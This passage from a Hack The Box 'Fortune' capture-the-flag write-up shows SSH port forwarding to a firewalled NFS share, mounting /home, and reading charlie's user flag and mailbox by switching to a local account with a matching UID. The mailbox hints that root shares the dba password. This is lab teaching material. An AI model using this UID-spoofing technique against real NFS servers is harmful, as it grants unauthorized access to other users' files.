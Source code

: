 The NFS port 2049 is firewalled but I can still access it by using local port forwarding in SSH.

```
# ssh -i fortune.key -L 2049:fortune.htb:2049 nfsuser@fortune.htb
Last login: Sat Mar  9 20:08:55 2019 from 10.10.14.23

Hello nfsuser. You are authenticated from host "10.10.14.23"
```

```
# mount -t nfs fortune.htb:/home /mnt
# ls -l /mnt
total 6
drwxr-xr-x 5 revssh   revssh   512 Nov  3 16:29 bob
drwxr-x--- 3 test1324 test1324 512 Nov  5 22:02 charlie
drwxr-xr-x 2     1002     1002 512 Nov  2 22:39 nfsuser
```

The `charlie` user directory is mapped to user ID 1000. I already has a user ID 1000 created on my Kali Linux box with the name `test1324`:

```
# grep test1324 /etc/passwd
test1324:x:1000:1000::/home/test1324:/bin/bash
```

To access `charlie`, I simply change to user `test1324` then I'm to access the files and the user flag.

```
root@ragingunicorn:~/htb/fortune# su test1324
test1324@ragingunicorn:/root/htb/fortune$ cd /mnt/charlie
test1324@ragingunicorn:/mnt/charlie$ ls
mbox  user.txt
test1324@ragingunicorn:/mnt/charlie$ cat user.txt
ada0af...
```

There's a mailbox file with a hint that we should look or the dba password next so we can log in as root:

```
test1324@ragingunicorn:/mnt/charlie$ cat mbox
From bob@fortune.htb Sat Nov  3 11:18:51 2018
Return-Path: <bob@fortune.htb>
Delivered-To: charlie@fortune.htb
Received: from localhost (fortune.htb [local])
	by fortune.htb (OpenSMTPD) with ESMTPA id bf12aa53
	for <charlie@fortune.htb>;
	Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
From:  <bob@fortune.htb>
Date: Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
To: charlie@fortune.htb
Subject: pgadmin4
Message-ID: <196699abe1fed384@fortune.htb>
Status: RO

Hi Charlie,

Thanks for setting-up pgadmin4 for me. Seems to work great so far.
BTW: I set the dba password to the same as root. I hope you don't mind.

Cheers,

Bob
```
